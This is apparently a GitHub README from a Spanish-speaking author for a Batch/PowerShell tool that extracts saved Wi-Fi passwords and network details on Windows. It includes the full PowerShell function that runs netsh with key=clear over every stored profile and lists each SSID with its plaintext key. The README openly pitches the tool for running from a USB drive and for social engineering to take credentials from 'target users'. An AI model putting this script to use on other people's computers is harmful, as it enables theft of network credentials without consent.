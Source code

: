 # Wi-Fi

![](https://1.bp.blogspot.com/-NZFmbAF5_6U/WfMx3j17FEI/AAAAAAAAId4/uDLKER2aeV8mPgUVfuawP3_5adAj5kg5gCLcBGAs/s1600/Screenshot_4.png)

This program, developed in Batch and PowerShell, is designed to extract Wi-Fi passwords and network information stored on a computer. It can be run directly from a USB drive or used as part of social engineering tactics to retrieve credentials from target users.

- https://lpericena.blogspot.com/2017/10/wiffi.html
### Features:
```
1. Retrieve wireless network information.
2. Extract Wi-Fi passwords manually and automatically.
3. Compatible with Windows-based systems.
```

### How to Use:
```
Download the program.
Run the program.
Choose an option:
Option 1: Retrieve wireless network information.
Option 2: Extract Wi-Fi passwords manually.
Option 3: Extract Wi-Fi passwords automatically.
Follow the prompts to complete the process.
```
### Código Fuente (Source Code)
- Autor : H3LL0WORLD
```
Function Get-WLAN_Profiles {
	param (
		[ValidateSet('es-ES','en-EN')]
		$LANGUAGE = $Host.CurrentUICulture.Name
	)
	$LANGUAGES = @{
		'es-ES' = New-Object psobject -Property @{
			'user_profiles_text' 	 = 'Perfil de todos los usuarios'
			'profile_not_found_text' = 'No se encuentra el perfil'
			'ssid_name_text' 		 = 'Nombre de SSID'
			'network_type_text' 	 = 'Tipo de red'
			'authentication_text'	 = 'Autenticación'
			'encryption_text'	 	 = 'Cifrado'
			'key_text' 				 = 'Contenido de la clave'
		}
		'en-EN' = New-Object psobject -Property @{
			'user_profiles_text' 	 = 'All User Profile'
			'profile_not_found_text' = 'Profile not found'
			'ssid_name_text' 		 = 'SSID name'
			'network_type_text' 	 = 'Network Type'
			'authentication_text'	 = 'Authentication'
			'encryption_text'	 	 = 'Cipher'
			'key_text' 				 = 'Key Content'
		}
	}
	$LANG = $LANGUAGES."$LANGUAGE"

	function getValueByName ( $inputText, $nameString ) {
		$value = "";
		if ([regex]::IsMatch($inputText,"\b$nameString\b","IgnoreCase")) {
			$value = ([regex]::Replace($inputText,"^[^:]*: ","")); 
		}
		return $value.Trim();
	}

	$Profiles = @()
	netsh wlan show profiles | % {
		$profile = getValueByName $_ $LANG.'user_profiles_text';
		if ($profile) {
			$Profiles += $profile
		}
	}

	$WLAN_Profiles = @()
	$rowNumber = -1;
	$Profiles | % {
		$wlan_Profile = netsh wlan show profile $_ key=clear
		if ($wlan_Profile.Contains($LANG.'profile_not_found_text')){
			return
		}
		$InterfaceName = $null
		$wlan_Profile | % {
			if (!($InterfaceName)) {
				$InterfaceName = getValueByName $_ $LANG.'ssid_name_text'
				$InterfaceName = $InterfaceName.Trim('"')
							
				if ($InterfaceName) {
					$row = New-Object PSObject -Property @{
						InterfaceName = $InterfaceName
						SSID = $InterfaceName
						NetworkType=""
						Authentication=""
						Encryption=""
						Key=""
					}
					$rowNumber+=1
					$WLAN_Profiles += $row
					#$WLAN_Profiles | ft
					return
				}
			}
			if (!($WLAN_Profiles[$rowNumber].NetworkType)) {
				$NetworkType = getValueByName $_ $LANG.'network_type_text';
				if ($NetworkType) {
					  $WLAN_Profiles[$rowNumber].NetworkType = $NetworkType
				}
			}
			
			if (!($WLAN_Profiles[$rowNumber].Authentication)) {
				$Authentication = getValueByName $_ $LANG.'authentication_text';
				if ($Authentication) {
					  $WLAN_Profiles[$rowNumber].Authentication = $Authentication
				}
			}
			
			if (!($WLAN_Profiles[$rowNumber].Encryption)) {
				$Encryption = getValueByName $_ $LANG.'encryption_text';
				if ($Encryption) {
					  $WLAN_Profiles[$rowNumber].Encryption = $Encryption
				}
			}
			
			if (!($WLAN_Profiles[$rowNumber].Key)) {
				$Key = getValueByName $_ $LANG.'key_text';
				if ($Key) {
					  $WLAN_Profiles[$rowNumber].Key = $Key
				}
			}
		}
	}

	if ($WLAN_Profiles.Count -gt 0) {
		'Total WLAN_Profiles: ' + $WLAN_Profiles.Count
		<#return#> $WLAN_Profiles | Select-Object 		   SSID,
											 Authentication,
														Key,
												 Encryption,
												NetworkType
	} else {
		'No WLAN Profiles found!'
	}
}

```

## Expressions of gratitude
* Well, I hope it is useful to you. If you have any questions, you can contact me at my social networks:
- 🌎Blogger          https://lpericena.blogspot.com/
- 💡 Github            https://github.com/Pericena
- 🐤 twitter             https://twitter.com/LPericena

* Thank you
---
Por [Pericena](https://github.com/Pericena) Donación paypal
https://www.paypal.com/paypalme/lpericena
